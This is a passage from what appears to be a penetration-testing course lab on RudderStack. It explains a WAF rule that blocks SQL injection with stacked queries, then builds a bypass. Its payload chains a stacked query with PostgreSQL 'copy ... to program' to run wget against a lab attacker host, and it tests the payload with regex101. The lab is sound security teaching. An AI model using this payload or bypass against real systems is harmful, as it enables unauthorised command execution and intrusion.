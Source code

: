 > Listing 19 - SecRule definition excerpt for SQL Authentication bypass (split query)

We won't cover every detail of the [_syntax_](https://coreruleset.org/docs/rules/creating/) right now, but let's review the important parts.

The rule starts with the [_SecRule_](https://coraza.io/docs/seclang/directives/#secrule) directive. After this directive, the rule defines a series of variables using a pipe (|) character between them. These define which parts of a request the WAF engine should inspect when applying this rule. The rule then defines an operator.

In this case, it uses a string that starts with "@rx" to denote a regular expression. The WAF engine will use this regex when it inspects a request. Although the regular expression in this rule may seem complex, it's essentially checking for a closing quote followed by a semicolon. The comments on this rule aren't entirely accurate with regard to why attackers use semicolons. The example payload we've been working with uses a semicolon to create stacked queries. PostgreSQL, MySQL, and Microsoft SQL Server will execute multiple SQL statements if passed a single string of semicolon-separated queries.

In the next section, we'll update our attack payload to bypass this regular expression.

## 12.3.5. Bypassing the WAF

Since the regular expression checks for a single quote followed by a semicolon, we need to update our payload. We don't care about the SQL statement we're injecting into, so we can modify that part of our payload in any number of ways.

We could add a number comparison after the single quote and before the semicolon. This would separate the single quote and semicolon. The exact value we use before the semicolon doesn't matter as long as it's valid SQL syntax. The outcome of the first SQL statement does not impact the outcome of the stacked or secondary SQL statement, as long as it does not generate a syntax error.

We'll use the following JSON body:

```
{ "source_id":"' or 1=2; copy (select 'a') to program 'wget -q http://192.168.48.3:9000/it_will_bypass' -- - ", "task_run_id":"1"}
```

> Listing 20 - Updated payload

We can use an online tool like [_regex101_](https://regex101.com/) to test if the rule's regular expression matches our payload. When testing the regular expression, we don't need to include "@rx" since that is part of the SecRule definition, not the regular expression.

![Figure 21: Using regex101 to check our payloads](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/2461799b5a1cf395726afd12c74720fc-rudder_regex_01.png)

Figure 21: Using regex101 to check our payloads

Based on the output from regex101, our payload should not be caught by the regular expression. There might be additional WAF rules that we aren't aware of, but let's try sending our updated payload. We'll need to start an HTTP server if we don't already have one running.

![Figure 22: Repeater with 500 Internal Server Error response](https://static.offsec.com/offsec-courses/WEB-300/images/rudderstack/ceccac85a105cd99223a44c5d4e25fe8-rudder_burp_14.png)

Figure 22: Repeater with 500 Internal Server Error response

We received an error from the server, but the WAF did not block our request. Let's check our HTTP server.
